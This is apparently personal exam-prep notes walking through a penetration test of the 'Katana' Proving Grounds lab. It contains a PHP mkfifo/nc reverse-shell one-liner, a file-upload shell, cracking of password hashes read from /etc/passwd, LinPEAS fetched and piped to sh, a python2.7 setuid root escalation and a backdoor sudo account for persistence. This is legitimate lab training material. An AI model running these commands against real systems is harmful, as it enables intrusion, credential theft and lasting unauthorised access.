

# Katana (rough notes)

## Discovery / Access

Initial port scan:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana]
└─$ nmap -v -Pn -T4 -p- katana
...

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
7080/tcp open  empowerid
8088/tcp open  radan-http
8715/tcp open  unknown
```

Again with service version fingerprinting:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana]
└─$ nmap -v -Pn -p 21,22,80,7080,8088,8715 -T4 -A katana
...

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 89:4f:3a:54:01:f8:dc:b6:6e:e0:78:fc:60:a6:de:35 (RSA)
|   256 dd:ac:cc:4e:43:81:6b:e3:2d:f3:12:a1:3e:4b:a3:22 (ECDSA)
|_  256 cc:e6:25:c0:c6:11:9f:88:f6:c4:26:1e:de:fa:e9:8b (ED25519)
80/tcp   open  http          Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.38 (Debian)
7080/tcp open  ssl/empowerid LiteSpeed
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Issuer: commonName=katana/organizationName=webadmin/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-11T13:57:36
| Not valid after:  2022-05-11T13:57:36
| MD5:   0443:4a65:9ba1:0b75:ea8d:d1b8:c855:e495
|_SHA-1: f89e:f85e:e6b3:6b10:4ebc:5354:80a0:0ae3:7e10:50cc
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
|_http-title: Did not follow redirect to https://katana:7080/
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
8088/tcp open  http          LiteSpeed httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: LiteSpeed
|_http-title: Katana X
8715/tcp open  http          nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Things to try:

- anonymous access on FTP server on port 21
- enumerate / check out the HTTP server on port 80
- find out what the TLS server on port 7080 is (look up "empoweid", "litespeed")
- enumerate / check out the HTTP server on port 8088
  - seems like the HTTP version of the server on 7080
- enumerate / check out the HTTP server on port 8715
  - seems like an old-ish(?) version of nginx (1.14.2)
  
No anonymous FTP access (`anonymous:anonymous`):

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana]
└─$ ftp katana
Connected to katana.
220 (vsFTPd 3.0.3)
Name (katana:scr1pt3r): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
```

Checking out the HTTP server on port 80:


The other two HTTP servers serve the same image...

Enumerating each of them with `gobuster`:


```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana]
└─$ gobuster dir --url http://katana/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
...

/ebook                (Status: 301) [Size: 300] [--> http://katana/ebook/]
/server-status        (Status: 403) [Size: 271]
```

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana]
└─$ gobuster dir --url http://katana:8088/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
...

/cgi-bin              (Status: 301) [Size: 1260] [--> http://katana:8088/cgi-bin/]
/img                  (Status: 301) [Size: 1260] [--> http://katana:8088/img/]
/docs                 (Status: 301) [Size: 1260] [--> http://katana:8088/docs/]
/css                  (Status: 301) [Size: 1260] [--> http://katana:8088/css/]
/protected            (Status: 301) [Size: 1260] [--> http://katana:8088/protected/]
/blocked              (Status: 301) [Size: 1260] [--> http://katana:8088/blocked/]

```

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana]
└─$ gobuster dir --url http://katana:8715/ -U admin -P admin --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
...
```

(That last one required auth but `admin:admin` did the trick)

Digging into the results for the first of them (port `80`), we navigate to `/ebook` and find it to be a "CSE Bookstore" site.


Looking up "CSE Bookstore exploit" on the web, I find an authenticated RCE exploit (https://www.exploit-db.com/exploits/47887)

I then find some more exploits in exploit-db:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana/exploit]
└─$ searchsploit online book store
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
GotoCode Online Bookstore - Multiple Vulnerabilities                                | asp/webapps/17921.txt
Online Book Store 1.0 - 'bookisbn' SQL Injection                                    | php/webapps/47922.txt
Online Book Store 1.0 - 'id' SQL Injection                                          | php/webapps/48775.txt
Online Book Store 1.0 - Arbitrary File Upload                                       | php/webapps/47928.txt
Online Book Store 1.0 - Unauthenticated Remote Code Execution                       | php/webapps/47887.py
```

Particularly promising are the RCE and the Arbitrary File Upload.

I tried the RCE first and the script did not work:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana/exploit]
└─$ python3 47887.py http://katana/ebook/
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell failed to upload! The web server may not have write permissions.
```

Moving on to the file upload exploit, its just an explanation pointing out that you can upload any file as the image of a book as an administrator. I'll try to do this from the website itself.

I navigate to the admin page from the home page ("Admin Login" hyperlink on the bottom right of the homepage).


I manage to authenticate with crdentials `admin:admin`, and then I can see an admin view of the books in the bookstore.


I edit the first book, ("C++...") and upload the following PHP reverse shell `rshell.php` as the image file:

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.201 80 >/tmp/f");?>
```

Editing a book did not work, so I tried adding a new book:


That also did not work... The creation of the book would succeed but the image at `http://katana/ebook/bootstrap/img/rshell.php` would simply return a 404...

I think this is a rabbithole... I move on to the TLS server. In hindsight, I should've tried to confirm the version of CSE bookstore was 1.0...


Digging into the enumeration results for the second HTTP server (port 8088), we navigate to `/docs`, where we learn that this is a `OpenLiteSpeed Web Server 1.5`.

Navigating to `/protected` we get a basic auth popup:



I try `admin:admin`, `admin:password`, and a few others with no luck... might try to brute force it with Hydra later.

I try enumerating paths on the webserver on port 8080 again, this time appending file extensions for php/html:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana]
└─$ gobuster dir --url http://katana:8088/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x '.php,.html,.jps,.txt,.sql,.php3,.php5'
...

/index.html           (Status: 200) [Size: 655]
/cgi-bin              (Status: 301) [Size: 1260] [--> http://katana:8088/cgi-bin/]
/img                  (Status: 301) [Size: 1260] [--> http://katana:8088/img/]
/docs                 (Status: 301) [Size: 1260] [--> http://katana:8088/docs/]
/upload.html          (Status: 200) [Size: 6480]
/upload.php           (Status: 200) [Size: 1800]
/css                  (Status: 301) [Size: 1260] [--> http://katana:8088/css/]
```

I find a few more paths (`upload.html` and `upload.php`); we'll go check them out in the browser.

In `/upload.html` we see an arbitrary file upload and we try uploading a php reverse shell:


The reverse shell is pointed to my local machine's (Kali) port 8715. (I tried other ports but got connection refused errors in the browser)

I go try load the php reverse shell path (as advertised in the file upload output) in each of the webservers we found earlier.

Trying `http://katana:8715/katana_pentestmonkey-rshell-8715.php` hangs -- which is good news. Checking over on our listener we find that we've caught a reverse shell!

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana/exploit]
└─$ nc -lvnp 8715
listening on [any] 8715 ...
connect to [192.168.45.201] from (UNKNOWN) [192.168.214.83] 55806
Linux katana 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 13:30:23 up  2:00,  0 users,  load average: 0.04, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

## Privilege Escalation

We find our access flag:

```
$ pwd
/var/www
$ ls -la
total 16
drwxr-xr-x  3 root     root     4096 Aug 20  2020 .
drwxr-xr-x 12 root     root     4096 May 11  2020 ..
drwxr-xr-x  3 root     root     4096 May 11  2020 html
-rw-r--r--  1 www-data www-data   33 Mar 31 12:38 local.txt
$ cat local.txt
dca1f96d7790fbf75c1162d725e3b986
```

We learn about user `katana`:

```
$ ls /home  
katana
```

From `/etc/passwd` we find some hashes for users `root` and `katana`:

```
$ cat /etc/passwd
...
root:$6$tYw4J1W.mXCmwbGt$4fzFKLA4AwjuuQM7ToRtrUvDqnuqbm0mbAMz91Bfd/wc5rYfdrI5Qz0QyT935PsuQl8bRUF/EHilSZfR/bGK/.:0:0:root:/root:/bin/bash
...
katana:$6$dX6scf3V2g2lMuzx$OP1qOSkNIaKL9cnGKObhRTJxeo9p0BwyOzsISHQGPvnTajSuxZN6eZ9U4GBY8mYsPRYuzrejhiTPsp45haxY2/:1000:1000:katana,,,:/home/katana:/bin/bash
...
```

I dump those into a file `hashes.txt` and run `hashcat` against them in autodetect mode:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana]
└─$ hashcat hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
...
```

While that runs, I run LinPEAS!

```
$ wget -O- --tries 1 --timeout 3 https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
--2024-03-31 13:54:07--  https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
...
```

The most noteworthy findings are:

- A highly probable kernel exploit

```
[+] [CVE-2019-13272] PTRACE_TRACEME

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
   Exposure: highly probable
   Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},debian=9{kernel:4.9.0-*},[ debian=10{kernel:4.19.0-*} ],fedora=30{kernel:5.0.9-*}
   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.
```

- An NGINX password file

```
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root root 44 May 11  2020 /etc/nginx/.htpasswd
admin:$apr1$1xby0ne1$riRBQEbOQovyW3qF1iqlZ1
```

(though this ons is likely `admin:admin` which we found earlier...)

- Python 2.7 has setuid capabilities

```
Files with capabilities (limited to 50):
...
/usr/bin/python2.7 = cap_setuid+ep
```

This is likely our in!

We get a shell as root leveraging the python2.7 binary:

```
www-data@katana:/var$ python2.7 -c 'import os; import pty; os.setuid(0); pty.spawn("/bin/bash")'

root@katana:/var# whoami
whoami
root
```

and we find our root flag!

```
root@katana:/var# cd /root
cd /root
root@katana:/root# ls
ls
proof.txt  root.txt
root@katana:/root# cat proof.txt
cat proof.txt
15688e97882b7bd7dee5fc122f112901
```

## Bonus (ssh persistence)

I set up a new user to come back through the front door with root privileges:

```
root@katana:/root# sudo useradd hackerman
sudo useradd hackerman
root@katana:/root# echo 'hackerman:hackerman' | sudo chpasswd
echo 'hackerman:hackerman' | sudo chpasswd
root@katana:/root# sudo usermod -aG sudo hackerman
sudo usermod -aG sudo hackerman
```

Testing:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Katana/exploit]
└─$ ssh hackerman@katana
hackerman@katana's password: 
Last login: Sun Mar 31 14:11:25 2024 from 192.168.45.201

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Could not chdir to home directory /home/hackerman: No such file or directory
$ sudo whoami
[sudo] password for hackerman: 
root
```

Success!